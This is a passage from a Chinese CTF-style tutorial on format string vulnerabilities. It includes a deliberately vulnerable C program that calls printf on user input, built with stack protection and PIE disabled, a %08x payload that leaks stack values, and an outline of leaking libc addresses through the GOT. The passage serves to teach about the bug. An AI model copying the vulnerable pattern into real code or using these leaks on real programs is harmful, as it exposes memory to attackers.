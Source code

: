 -   泄露栈内存
    -   获取某个变量的值
    -   获取某个变量对应地址的内存
-   泄露任意地址内存
    -   利用GOT表得到libc函数地址，进而获取libc，进而获取其它libc函数地址
    -   盲打，dump整个程序，获取有用信息。

### 泄露栈内存

例如，给定如下程序

```C
#include <stdio.h>
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}
```

然后，我们简单编译一下

```shell
➜  leakmemory git:(master) ✗ gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
leakmemory.c: In function ‘main’:
leakmemory.c:7:10: warning: format not a string literal and no format arguments [-Wformat-security]
   printf(s);
          ^
```

可以看出，编译器指出了我们的程序中没有给出格式化字符串的参数的问题。下面，我们来看一下，如何获取对应的栈内存。

根据C语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数(64位会根据其传参的规则进行获取)。这里我们主要介绍32位。

#### 获取栈变量数值

首先，我们可以利用格式化字符串来获取栈上变量的数值。我们可以试一下，运行结果如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffcfc400.000000c2.f765a6bb
```

可以看到，我们确实得到了一些内容。为了更加细致的观察，我们利用GDB来调试一下，以便于验证我们的想法，这里删除了一些不必要的信息，我们只关注代码段以及栈。

首先，启动程序，将断点下在printf函数处

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
```
